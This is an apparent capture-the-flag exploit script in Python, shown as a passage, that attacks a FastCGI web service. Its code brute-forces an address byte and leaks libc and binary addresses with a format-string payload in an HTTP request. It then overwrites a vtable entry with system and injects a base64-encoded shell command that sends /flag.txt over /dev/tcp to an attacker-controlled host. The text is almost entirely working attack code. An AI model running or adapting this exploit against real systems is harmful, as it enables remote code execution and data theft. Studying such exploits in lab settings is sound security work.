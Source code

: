 ```py
            session_id = login(i)
            if session_id:
                l.success(f'Session Acquired -> {session_id}')
                break
        else:
            l.failure('Failed to acquire session id')
            exit(1)
            
idx = 0
with log.progress('Bruteforcing....\t\t',level=logging.CRITICAL) as l:
    while True:
        l.status(f'0x{idx:02x}/0x{2**8:02x}')
        # Overflow
        overflow(p16(e.plt['FCGI_printf']&0xffff),l)

        # Leaks# Leaks - we need some percision here
        req  = b''
        req += b'GET /login:' + url_encode(b'%c'*20 + b'%p,'*20) + b' HTTP/1.1' + CRLF
        req += b'Host: %s:%s'%(RHOST.encode(),RPORT.encode()) + CRLF
        req += b'Cookie: session_id=' + (b'%0d'*8+b'%0a'*8)*2 + CRLF
        req += CRLF

        # l.status('Wishing for leaks...')
        r = remote(RHOST,RPORT)
        r.send(req)

        # here comes the leaks
        r.recvuntil(b'\r\n\r\n') # skip the headers
        leaks       = r.recvall(timeout=1)
        r.close()

        # check if we crached the binary already
        if b'500 Internal Server Error' in leaks:
            continue

        libc_leak   = int(leaks.split(b',')[2],base=16) - 0x2a1ca
        bin_leak    = int(leaks.split(b',')[6],base=16) - 0x2510

        l.status(f"Libc base: {hex(libc_leak)}")

        e.address       = bin_leak
        libc.address    = libc_leak

        # Exploitation . overflow then write system into the vtable
        l.status('Writing System to vtable...')
        sleep(0.5)
        overflow(p64(libc.sym.system)[:6],l)

        command = b64e(f'cat /flag.txt > /dev/tcp/{LHOST}/{LPORT}'.encode())

        r = requests.post(
            url     = f'{URL}/login'+quote(f";echo {command}|base64 -d|bash"),
            cookies = {'session_id' : session_id},
        )

        l.status('Waiting for flag...')
        _ = sock.wait_for_connection()
        x = sock.recvall()

        l.success(x.decode().strip())
        
        r.close() ; sock.close()
        break
```